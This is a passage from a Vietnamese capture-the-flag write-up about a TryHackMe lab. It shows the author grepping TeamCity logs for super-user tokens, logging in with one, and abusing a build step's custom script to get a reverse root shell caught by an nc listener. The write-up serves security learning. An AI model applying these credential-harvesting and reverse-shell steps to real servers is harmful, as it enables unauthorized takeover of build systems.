 Điều này có nghĩa là tôi cần token để login. Và việc đầu tiên tôi nghĩ đến là tìm nó bên trong log, vì có thể những phiên đăng nhập trước đó vẫn còn ghi lại trong log.

Tìm từ khóa *token* bên trong tất cả các file tại thư mục */logs*

```python
sys-internal@vulnnet-internal:/TeamCity$ grep -iR token /TeamCity/logs/ 2>/dev/null
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 3782562599667957776 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 5812627377764625872 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 1189775395164371106 (use empty username with the token as the password to access the server)
```

Với token cuối cùng thì tôi đã tìm đăng nhập thành công. Hiện tại tôi đang truy cập với *root*, có nghĩa là tôi có thể toàn quyền sử dụng TeamCity và sẽ tìm cách để RCE

Sau khi mất 1 thời gian tương đối để tìm hiểu thêm về TeamCity, tôi đã tìm được cách lấy RCE. Đầu tiên vẫn phải tạo 1 project mới, sau đó chọn *Buil Step* với command line và nhập payload vào *Custom script*, nó sẽ giống như thế này

![RCE](/assets/img/2022-04-08-THM-VulnNet-Internal/6.webp)

Sau đó save nó lại. Tiếp theo tạo listener với port đã thêm trong payload, ở đây tôi dùng port 9001

`nc -lnvp 9001`

Sau khi đã save xong, tôi chọn *Run* ở cửa sổ tiếp theo 

![run](/assets/img/2022-04-08-THM-VulnNet-Internal/7.webp)

Quay trở lại listener

```python
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.6.0.191] from (UNKNOWN) [10.10.211.50] 49704
root@vulnnet-internal:/TeamCity/buildAgent/work/2b35ac7e0452d98f# id   
id
uid=0(root) gid=0(root) groups=0(root)
root@vulnnet-internal:/TeamCity/buildAgent/work/2b35ac7e0452d98f# 
root@vulnnet-internal:/TeamCity/buildAgent/work/2b35ac7e0452d98f# cd
cd
root@vulnnet-internal:~# ls /root
ls /root
root.txt
```